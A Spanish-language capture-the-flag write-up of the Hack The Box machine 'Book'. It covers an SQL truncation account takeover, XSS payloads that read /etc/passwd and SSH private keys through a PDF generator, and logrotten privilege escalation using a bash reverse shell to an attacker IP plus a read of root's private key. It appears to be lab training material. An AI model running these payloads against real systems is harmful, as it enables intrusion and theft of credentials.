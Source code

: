 # Book

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- SQL Truncation Attack
- XSS / LFI
- Logrotten

## Nmap Scan

`nmap -sV -sC -p- 10.10.10.176`

```
Nmap scan report for 10.10.10.176
Host is up (0.27s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Enumerando el puerto 80 nos encontramos con un formulario de login y uno para registrarse, revisando el source code podemos ver un script que valida los caracteres ingresados en el formulario de registro.

![1](img/1.png)

Usando **gobuster** buscamos directorios y archivos en la página web. Se encuentra el directorio **/admin**.

`gobuster dir -u http://10.10.10.176/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40`

![2](img/2.png)

Si intentamos registrarnos con el usuario **admin** veremos que ya existe.

![3](img/3.png)

![4](img/4.png)

Nos registramos con cualquier usuario y accedemos al portal. Podemos ver que en **Collections** se pueden subir archivos pero es necesario que el administrador los acepte.

![5](img/5.png)

![6](img/6.png)


## SQL Truncation Attack

> El truncamiento de SQL es un exploit que surge debido a la configuración incorrecta de las bases de datos. Si la base de datos es vulnerable y el número máximo de caracteres para el nombre de usuario es, por ejemplo, 30 y desea suplantar al usuario admin, intente crear un nombre de usuario llamado: "admin [30 espacios] a" y cualquier contraseña. La base de datos verificará si el nombre de usuario introducido existe dentro de la base de datos. Si no, reducirá el nombre de usuario al número máximo permitido de caracteres y eliminará automáticamente todos los espacios al final de la actualización dentro de la base de datos del usuario "admin" con la nueva contraseña (puede aparecer algún error pero no significa que esto no haya funcionado).

Investigando diferentes tipos de login bypass con sql injection, llegamos a este [articulo](https://resources.infosecinstitute.com/sql-truncation-attack/). Este ataque nos permitirá suplantar la cuenta del usuario admin y poder iniciar sesión en el portal **/admin**.

Capturamos la petición del registro y la modificamos agregando los espacios.

```
name=admin&email=admin%40book.htb               1&password=admin
```

![7](img/7.png)

Veremos que nos regresa al formulario de inicio de sesión, si vamos a la ruta **/admin** e intentamos iniciar sesión nos daremos cuenta de que el ataque fue exitoso.

![8](img/8.png)

## XSS / LFI

Revisando como explotar el formulario para subir archivos encontramos este [articulo](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) bastante útil, ya que nos permitirá leer archivos de forma local y serán reflejados en el PDF.

Descargaremos uno de los PDF que están en **Collections** y lo utilizaremos para hacer el ataque.

En el panel del usuario subimos nuestro payload para intentar leer el archivo **passwd**.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>`

![9](img/9.png)

Descargamos el PDF de **Collections** del panel de administrador y veremos que el archivo passwd se refleja en el PDF.

![10](img/10.png)

![11](img/11.png)

Se puede visualizar el usuario **reader**, intentaremos leer la llave privada del usuario. Aplicamos los mismo pasos anteriormente mencionados.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`

![12](img/12.png)

Nos trae la llave privada pero no se puede ver claramente. En este punto yo use un script llamado [pdf2txt.py](https://github.com/pdfminer/pdfminer.six/) para obtener todo el texto correctamente.

`python3 /usr/local/bin/pdf2txt.py 77071.pdf`

![13](img/13.png)

Quitamos los espacios de sobra en la primera y última linea, cambiamos los permisos de la llave y nos conectamos por SSH.

- `chmod 400 id_rsa`
- `ssh -i id_rsa reader@10.10.10.176`

![14](img/14.png)

## Escalada de Privilegios

### Logrotten

Usando **pspy64** nos percatamos que hay un proceso interesante que está ejecutando **logrotate**.

- `scp -i id_rsa /opt/linux/pspy64 reader@10.10.10.176:/tmp/`
- `chmod +x pspy64`
- `./pspy64`

![15](img/15.png)

![16](img/16.png)

Investigando damos con este [repositorio](https://github.com/whotwagner/logrotten) que tiene un exploit que nos permite aprovecharnos de logrotate.

Compilamos el exploit dentro de la máquina y creamos nuestro payload.

- `gcc -o logrotten logrotten.c`
- `echo "/bin/bash -i >& /dev/tcp/10.10.14.195/1234 0>&1" > payloadfile`

![17](img/17.png)

Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Ejecutamos nuestro exploit y para que haga efecto necesitamos escribir algo en el archivo **access.log** desde otra sesión SSH.

- `./logrotten -p ./payloadfile /home/reader/backups/access.log`
- `echo hola > access.log`

![18](img/18.png)

Ya que esto es un **race condition** tendremos que intentar unas cuantas veces hasta que consigamos nuestra shell. La shell se cerrará bastante rápido, entonces leeremos el id_rsa del usuario root para posteriormente conectarnos por SSH.

`cat /root/.ssh/id_rsa`

![19](img/19.png)

- `chmod 400 id_rsa_root`
- `ssh -i id_rsa_root root@10.10.10.176`

![20](img/20.png)

## Referencias
https://resources.infosecinstitute.com/sql-truncation-attack/ \
https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html \
https://github.com/pdfminer/pdfminer.six/ \
https://github.com/whotwagner/logrotten